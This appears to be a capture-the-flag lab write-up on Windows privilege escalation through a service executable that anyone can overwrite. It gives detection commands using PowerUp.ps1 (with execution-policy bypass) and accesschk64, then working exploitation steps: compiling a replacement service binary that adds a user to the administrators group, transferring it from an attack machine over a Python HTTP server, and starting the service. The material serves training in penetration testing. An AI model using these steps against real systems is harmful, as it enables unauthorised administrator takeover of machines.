





# Service Escalation - Executable Files

When we find services running that have executables attached to them, we want to check if they are running with "FILE ALL ACCESS" permissions for "Everyone". This can be exploited to get a reverse shell or add a user to the local administrators group. We can detect this vulnerability using SysInternals accesschk64.exe or PowerUp.ps1. Using the PowerUp.ps1 option will provide better detail and not require the direct run against a specific program.

## Step 1: Detection

We can detect with either PowerUp.ps1 or with accesscheck64.exe.

### Detection with PowerUp.ps1

Load PowerShell and PowerUp.ps1

Run the `Invoke-AllChecks` command

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
PS C:\Users\user\Desktop\Tools\PowerUp> . \PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```



## Detection with accesschk64.exe

Run `accesschk64.exe` against the specific service path `C:\Program Files\File Permissions Service`

```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```


### Detection Method Comparison

The PowerUp.ps1 option provides more detail and does not require that we now about the service in advance. The accesschk64.exe method requires that we already know about the service in question and the output does not tell us if our current user can restart the service.

## Step 2: Exploitation

Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**



Compile the source code file into an executable with the following command:

- **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**

NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe
```

Copy the generated file `filepermservice.exe`, to the target using the Python HTTP server

NOTE: Make sure to use `binary` mode for the transfer process

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Navigate to the attack machine HTTP web server URL



Replace the existing `filepermservice.exe` with the malicious version



Now we can start the `filepermsvc` service which should add our `user` account to the `administrators` local group.

```bash
C:\Users\user> sc start filepermsvc
C:\Users\user> net localgroup administrators
```


